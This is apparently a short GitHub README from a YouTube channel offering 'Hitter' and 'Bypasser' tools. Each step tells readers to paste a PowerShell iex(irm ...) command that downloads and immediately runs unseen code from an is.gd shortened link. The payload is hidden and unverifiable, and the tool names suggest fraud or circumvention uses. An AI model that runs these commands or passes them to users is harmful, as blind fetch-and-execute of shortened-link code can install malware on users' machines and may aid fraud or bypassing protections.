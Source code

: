 # TechTubeInsider
TechTube Insider YouTube Channel's Files

# Part 1 - Hitter

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
```
iex(irm is.gd/docomojx)
```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.

# Part 2 - Bypasser

* Right-click on the Windows start menu and select PowerShell or Terminal (Not CMD).
* Copy-paste the below code and press enter
```
iex(irm is.gd/bypassjx)
```
* You will see the hitter options, follow the on-screen instructions.
* That’s all.


